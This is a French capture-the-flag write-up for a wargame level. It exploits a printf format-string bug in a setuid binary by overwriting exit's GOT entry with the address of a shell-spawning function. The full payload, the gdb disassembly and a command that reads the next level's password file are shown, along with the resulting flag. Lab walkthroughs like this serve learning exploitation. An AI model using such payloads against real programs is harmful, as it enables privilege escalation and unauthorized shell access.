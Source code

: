 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```
$ id && pwd && ls -la
uid=2045(level5) gid=2045(level5) groups=2045(level5),100(users)
/home/user/level5
total 17
dr-xr-x---+ 1 level5 level5   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level5 level5  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level5 level5 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level6 users  5385 Mar  6  2016 level5
-rw-r--r--+ 1 level5 level5   65 Sep 23  2015 .pass
-rw-r--r--  1 level5 level5  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level4 :

```
$ ./level5

```

Il ne répond qu'avec un input :

```
$ ./level5
da
da
```

J'utilise [Dogbolt](https://dogbolt.org/?id=ba35d828-02dc-44ac-a188-182a91119498) afin de décompiler le binaire du level 5 :

### Ghidra

```c
void o() {
  system("/bin/sh");
  _exit(1);
}

void n() {
  char buffer[520];
  
  fgets(buffer, 512, stdin);
  printf(buffer);
  exit(1);
}

void main() {
  n();
  return;
}
```

### Hexray

```c
void o() {
  system("/bin/sh");
  exit(1);
}

void n() {
  char buffer[520]; // [esp+10h] [ebp-208h] BYREF

  fgets(buffer, 512, stdin);
  printf(buffer);
  exit(1);
}

int main(int argc, const char **argv, const char **envp)
{
  n();
}
```

Je note les choses suivante :

- `fgets()` est utilisé, et n'est donc pas vulnérable
- `printf()` est utilisé, probablement expoitable comme le level 3 et 4

Je note un buffer plus grand que ce que `fgets()` lit, mais dans le niveau précédent c'était sans intérêt et je ne m'y intéresserait donc pas ici également. J'estime que la source de vulnérabilité ici est encore `printf()` et qu'il me faut par conséquent appeller la fonction `o()` au travers de cette vulnérabilité, afin d'obtenir le shell et le `.pass` du niveau suivant par extension.

J'obtiens l'adresse de `o()` avec `gdb` :

```
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp <---------- ici
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x18,%esp
   0x080484aa <+6>:     movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    movl   $0x1,(%esp)
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
```

J'ai donc un premier élément important pour mon payload : `0x080484a4` (adresse de la fonction `o()` dans la stack).

Ce qui diffère des précedents niveaux ici, c'est qu'il ne s'agit pas de changer la valeur d'une variable mais bien d'appeller une autre fonction. Je me renseigne sur internet sur les vulnérabilité possible en ce sens et tombe sur un type de vulnérabilité du nom de [Ret2Plt](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got).

Ce type de vulnérabilité exploite le passage entre le `PLT` et le `GOT`, vulgarisé, cela implique les choses suivante :

- Un programme en C n'est pas compilé avec la `libc`, afin d'alléger le poids des binaires, donc, lors de la compilation, ces calls sont attribués un pointeur vers la `PLT` (Procedure Linkage Table)
- Lors de l'exécution du programme, chaque 'call' dans le code qui pointe vers une fonction de la `libc` (par exemple `exit()`) va passer au travers d'un procédé de `dynamic linking`.
- Avant ce passage, et comme on peut l'observer dans le `disas o` de `gdb` au dessus, ces 'call' sont suffixés par `@plt`, ce qui indique au runtime d'aller chercher dans la `GOT` (Global Offset Table) à quelle fonction cela correspond.
- Après ce passage, ces 'call' sont résolus par la conjonction de la `PLT` et la `GOT` afin d'associer un 'call' dans le binaire compilé, a une fonction de la `libc`.

Il va être pour nous ici question de changer vers quoi :

```
(gdb) disas n
Dump of assembler code for function n:
    ...
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
```

`exit` pointe par son `plt`. Si nous pouvons "faire croire" à l'exécutable qu'`exit` est une fonction qui pointe vers `o()`, alors, au moment du `dynamic linking`, le programme résoudra que le call `exit` pointe vers la `o()` et non la vraie fonction `exit` de la `libc`.

Pour construire un payload infecté qui effectue ce genre de shenaniganerie, ce dernier devra contenir :

- L'adresse de `o()`
- L'adresse `plt` de `exit()`

Je suis heurté a des problématiques similaire au précédents niveaux. Tout d'abord, le buffer est trop petit pour écrire les caractères avec `%n` dans un pointeur afin de changer son adresse, donc comme auparavent, je devrais utiliser l'astuce avec `%p` pour bypass la taille qui m'est allouée.

Le but du payload sera donc, je résume : de changer la valeur `@plt` vers quoi pointe `exit`.
Donner à `exit` comme valeur de pointeur, celle de l'adresse de `o()`.

Première étape, je trouve l'adresse '`plt`' de `exit` :

```
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838 <----------------- ici
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```

Je construit mon payload dans l'optique de l'exploiter comme au level 4, en voici donc la première partie :

```python
python -c 'print("\x08\x04\x98\x38"[::-1])'
```

J'ai plus haut trouvé l'adresse de `o()` : `0x080484a4`. Il me faut la traduire en une valeur décimale afin de savoir la valeur de padding à utiliser dans l'astuce du format `%p`. J'utilise ce site : [RapidTables](https://www.rapidtables.com/convert/number/hex-to-decimal.html) et trouve : `134513828`.

Comme pour le précedent niveau, je soustrais 4 bytes à ce chiffre pour inclure les précédents 4 bytes déjà écrit de l'adresse `plt` d'`_exit`, et ajoute ça à mon payload :

```python
python -c 'print("\x08\x04\x98\x38"[::-1] + "%134513824p")'
```

Il ne me reste plus qu'à utiliser l'exploit avec `%n` afin d'écrire tout ces caractères dans l'adresse d'`exit`.
Il me faut d'abord trouver avec l'astuce du `%x`, a quelle position se trouve cette adresse dans le contexte de la stack de `printf()` :

```
$ python -c 'print("a %x %x %x %x %x")' | ./level5
a 200 b7fd1ac0 b7ff37d0 78252061 20782520
                               ^
$ python -c 'print("b %x %x %x %x %x")' | ./level5
b 200 b7fd1ac0 b7ff37d0 78252062 20782520
                               ^
```

C'est donc ici le 4ème argument. Je peux donc conclure mon payload infecté :

```python
python -c 'print("\x08\x04\x98\x38"[::-1] + "%134513824p" + "%4$n")'
```

Pour rappel sur les 3 précédents niveaux. Ces exploits fonctionnent dû au fait que `printf()` lit le buffer que `fgets()` lui donne, qui vient de nous. Cela représente une vulnérabilité car nous pouvons exploiter les formatteur du type : `%n`. Etant donné que ces derniers fonctionnent sur les arguments passés à `printf()`, mais qu'aucun sont présents, nous pouvons donc effectivement arbitrairement changer des valeurs dans la stack.

J'essaye mon payload :

```
(python -c 'print("\x08\x04\x98\x38"[::-1] + "%134513824p" + "%4$n")' && echo 'cat /home/user/level6/.pass') | ./level5
... (134 millions d'espace de padding)
                                                        0x200 (comme pour le level 4, le premier argument de la stack est imprimé, ici 512, la taille du buffer passé en paramètre)
(puis, la clé est imprimé, ce qui implique que nous avons correctement réussis à exécuter o(), ce qui implique que nous avons correctement réussis à ré-écrire ce vers quoi exit() a été linké, ici, donc, o())
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

Autre sources utilisées :
https://www.airs.com/blog/archives/38 (20 parties ! ! !)
https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc (très bon graphique qui illustre le payload inclus)
